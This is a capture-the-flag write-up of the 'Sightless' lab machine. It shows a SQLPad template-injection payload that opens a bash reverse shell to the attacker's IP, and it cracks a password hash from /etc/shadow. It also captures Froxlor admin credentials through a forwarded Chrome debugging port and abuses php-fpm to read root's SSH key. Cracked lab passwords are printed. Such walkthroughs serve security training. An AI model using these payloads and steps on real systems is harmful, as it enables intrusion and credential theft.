
“easy” machine
We have port 21,22 and 80 open
PORT STATE SERVICE VERSION21/tcp open ftp| fingerprint-strings: | GenericLines: | 220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]| Invalid command: try being more creative|_ Invalid command: try being more creative22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)| ssh-hostkey: | 256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)|_ 256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)80/tcp open http nginx 1.18.0 (Ubuntu)|_http-title: Did not follow redirect to http://sightless.htb/| http-methods: |_ Supported Methods: GET HEAD POST OPTIONS|_http-server-header: nginx/1.18.0 (Ubuntu)1 service unrecognized despite returning data. If you know the service/ve
Shell as root(inside of docker)
FFUF finds no subdomains and we have no interesting directories
This link points us to a subdomain sql pad which we can access after adding it to our /etc/hosts file
http://sqlpad.sightless.htb/

The site seems to allow us to execute sql querries if we connect to a database. But we do not have any creds so we cannot connect to anything.

Using apache pinot we can get a callback to our machine by entering our IP but we cant really exploit this further.


In the about section of sqlpad we can find the version

With a lot of googling i found a POC we can use to exploit this.
https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
We select a new connection with the driver MySQL and set the database to the command below which will execute a bash command giving us a reverse shell.
{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.4/443 0>&1"') }}


Looks like we are inside of a docker container.
IN the sqlpad directory there is a sql lite file. I was able to mount it to sqlpad and access the user hashes but its just for sqlpad and doesnt look useful.

$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.RIIKRysR6pZnxquAWsLFcC
Admin hash cracks to admin
No obvious ways to breakout of the container so im going to try other things.
Shell as Michael
The /home directory has a user named michael
michael has an entry in /etc/passwd and /etc/shadow so I copy both files to my machine and use unshadow with john.
unshadow passwd shadow > passwd-shadow.txt
I dont want to crack every hash in the file so I only grab michaels hash and move it to a michael.txt file
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/
Cracked the hash

We can now ssh in and get the user flag
michael:insaneclownposse

Shell as Root
Root took me a very long time and I had to get hints. I was familiar with this exploit but never used it before. During linpeas we can see chrome is open with remote debugging port but the port was set to 0 so I didnt think we could use it. Looks like we were supposed to forward random open ports on the machine and hope one happened to be chrome. I was able to portforward 8080 and get to the login page which has authenticated RCE but I had no creds to login. We also had to add localhost to our /etc/hosts file. 127.0.0.1 admin.sightless.htb

Once we got the right port we can inspect traffic from the session and find the cleartext credentials to login.
I tried each port open by port forwarding with ssh and 42721 happened to be correct.
ssh -L 42721:localhost:42721 michael@10.10.11.32

Wait for michael to login and we get creds

admin:ForlorfroxAdmin
We can use php-fpm to copy the id_rsa from root to /tmp. Create a new version as shown below.

Then start/stop fpm to execute the command

This took about an hour to show up and I had to disable/re-enable php over and over and over


And to top things off we cannot read the file as its still owned by root. So did the same steps above with chmod 777 /tmp/id_rsa as the command and waited another hour to be able to read the file.


By far one of the worst machines ive done and I have no idea how it has an easy rating.
